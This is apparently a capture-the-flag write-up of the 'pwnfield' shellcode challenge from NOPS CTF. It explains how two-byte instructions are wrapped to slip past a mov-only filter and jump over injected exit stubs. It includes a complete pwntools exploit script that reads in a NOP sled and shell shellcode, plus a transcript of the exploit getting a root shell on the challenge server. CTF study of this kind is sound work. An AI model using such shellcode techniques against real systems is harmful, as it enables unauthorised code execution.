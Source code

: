 ```yaml
---
title: pwnfield writeup
date: 2025-06-02
description: "[pwn] writeup of the pwnfield challenge from nops ctf"
tags: ["ctf","pwn"]
---
```

# Challenge description

We discovered that PwnTopia use their secret mine to collect shellcodium, a very rare and powerful resource! We need it too, to be able to defend N0PStopia. However, PwnTopia has put some mines in the way to the shellcodium, but we are lucky PwnTopia left their most powerful tool, a shell , sh on their way out! Can this be a secret message? Can you manage to avoid the mines and use their tool against them?

(attached [source code](/files/pwnfield/pwnfield.c) and binary with dockerfile)

huge thanks to [xneve](https://github.com/xneve) for helping with this challenge

# Solution

from challenge description and by analyzing the source code we can see that this is a shellcode challenge that works like this:

from source code:

```c
#define MAX_INSTRUCTIONS 32
#define USER_INSTR_SIZE 5
#define MINE_SIZE 12
#define LINE_SIZE (USER_INSTR_SIZE + MINE_SIZE)
#define TOTAL_SIZE (LINE_SIZE * MAX_INSTRUCTIONS) + 1
 
const uint8_t exit_mine[] = {
    0xB8, 0x3C, 0x00, 0x00, 0x00,     // mov eax, 60 (exit syscall)
    0xBF, 0x39, 0x05, 0x00, 0x00,     // mov edi, 1337 (exit code)
    0x0F, 0x05                        // syscall      
};
// some code 

    for (int i = 0; i < MAX_INSTRUCTIONS; i++) {
        printf("Instruction %d/32 (5 bytes mov): ", i + 1);
        fflush(stdout);

        uint8_t buf[USER_INSTR_SIZE];
        ssize_t n = read(0, buf, USER_INSTR_SIZE);
        if (n != USER_INSTR_SIZE) {  // read exactly 5 bytes
            puts("Bad input.");
            exit(1);
        }

        if (strncmp((char *)buf, "exit", 4) == 0) {
            puts("Starting execution!");
            break;
        }

        if (buf[0] < 0xB8 || buf[0] > 0xBF) { // checks if the first byte is mov or imm32 instruction
            puts("Only mov r32, imm32 allowed.");
            exit(1);
        }

        memcpy(p, buf, USER_INSTR_SIZE); //copy user input to the buffer
        p += USER_INSTR_SIZE;

        memcpy(p, exit_mine, MINE_SIZE); // append exit mine instrucions
        p += MINE_SIZE;
    }
    //some code
    void *start = mem + (((int64_t)index * LINE_SIZE) % TOTAL_SIZE); // calculate the start address for execution 

    puts("Executing...");
    ((void(*)())start)(); // execute the shellcode
```

so after every input of 5 bytes that needs to be a mov instruction, there is a `exit mine` that is appended to the buffer that exits the program

this is how it looks like in gdb after sending 

```python
payload = b'\xb8' + b'\x90' * 4 # mov eax + nop nop nop nop
payload += b'\xb8' + b'\x90' * 4 # mov eax + nop nop nop nop
```

![test](/images/pwnfield/pwnfield_test.png)

but we can see that only frist byte is checked, so further bytes can be anything (like `nop` instructions here)

also starting point of execution is just checked by boundary of the buffer, not by offset in the buffer - execution can start anywhere in the buffer  - here it start with `nop nop nop...` not `mov eax, 0x90909090`



lets create a wrapper for the shellcode so it will pass the checks and jump over the `exit mine` instructions

```python
def wrap(inside,jump=b'\x0d'):
    frame1 = b'\xb8' #  mov eax 
    frame2 = b'\xeb' + jump # jump
    op = frame1 + inside + frame2 
    return op
```

by sending `\xCC` optcode and starting execution at index `0` executions stops with `SIGTRAP`:

```python
payload = b''
payload += wrap(b'\xCC\xCC')  # int3
payload += wrap(b'\xCC\xCC')
payload += wrap(b'\xCC\xCC')

io.send(payload)
io.sendlineafter(': ', b'exit')
io.sendlineafter(b'?', b'0') #starting instruction at index 0
```

in gdb :

![int3](/images/pwnfield/pwnfield_int3.png)

now we can write shellcode using two bytes long instructions

state of registers when entering the shellcode:

![registers](/images/pwnfield/pwnfield_registers.png)

in rdx we can see pointer to  the buffer, which we can use to overwrite it with read syscall

to execute read we need to set:

- rax to 0 (read syscall number) - already set
- rdi to 0 (stdin)
- rsi to pointer to the buffer
- rdx to size of the buffer

so we need to execute:

```asm
xor rdi, rdi        ; rdi = 0 (stdin)
push rdx            ; push rdx (pointer to the buffer)
pop rsi             ; pop rdx to rsi (moving pointer to the buffer to rsi)
xor rdx, rdx        ; rdx = 0 (size of the buffer)
mov dh, 0x2        ; rdx = 0x200 (size of the buffer)
syscall             ; execute syscall (read)
```

in python: 

```python
payload +=wrap(b'\x31\xff') # xor rdi, rdi -> rdi = 0 (stdin)
payload +=wrap(b'\x52\x5e') # push rdx; pop rsi -> moving pointer to the buffer to rsi
payload +=wrap(b'\x31\xd2') # xor rdx, rdx -> rdx = 0 (size of the buffer)
payload +=wrap(b'\xb6\x02') # mov dh, 0x2 -> rdx = 0x200 (size of the buffer)
payload +=wrap(b'\x0f\x05') # syscall 
```

after sending this program will read 512 bytes from stdin - that is enough to write shellcode and nop sledge to it

```python
io.sendline(b'\x90' * 100 + asm(shellcraft.amd64.linux.sh()))
io.interactive()
```

this is how it looks in gdb:

![shellcode](/images/pwnfield/pwnfield_shellcode.png)


lets run the exploit on remote server:

```txt
# ./expl.py REMOTE
[*] '/nopsctf/pwnfiled/docker/src/pwnfield'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
    Debuginfo:  Yes
[+] Opening connection to 0.cloud.chals.io on port 13857: Done
[*] Switching to interactive mode
 Executing...
$ id
uid=0(root) gid=0(root) groups=0(root)
$ ls
flag.txt  pwnfield  sh
$ cat flag.txt
N0PS{0n3_h45_70_jump_0n_7h3_204d_70_pwnt0p1a}
```

whole exploit code:

```python
#!/usr/bin/python3
from pwn import *
PATH = './pwnfield'
ADDR = '0.cloud.chals.io'
PORT = 13857
elf = context.binary = ELF(PATH)
context.log_level = 'info'
#breakpoint just before jumping to the shellcode
gs = '''
b* main+594
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(ADDR,PORT)
    elif args.GDBWIN:
        context.terminal = ['wt.exe','wsl.exe']
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)
io = start()
def sa(data):
    io.sendafter(b': ', data)
######################
def wrap(inside,jump=b'\x0d'):
    frame1 = b'\xb8' #  mov eax to fulfill the first byte check
    frame2 = b'\xeb' + jump # jump to skip exit 
    op = frame1 + inside + frame2 
    return op

payload = b''
payload +=wrap(b'\x31\xff') # xor rdi, rdi -> rdi = 0 (stdin)
payload +=wrap(b'\x52\x5e') # push rdx; pop rsi -> moving pointer to the buffer to rsi
payload +=wrap(b'\x31\xd2') # xor rdx, rdx -> rdx = 0 (size of the buffer)
payload +=wrap(b'\xb6\x02') # mov dh, 0x2 -> rdx = 0x200 (size of the buffer)
payload +=wrap(b'\x0f\x05') # syscall 
io.send(payload)

io.sendlineafter(': ', b'exit')
io.sendlineafter(b'?', b'0') #starting instruction
io.sendline(b'\x90' * 100 + asm(shellcraft.amd64.linux.sh())) #shellcode 
io.interactive()
```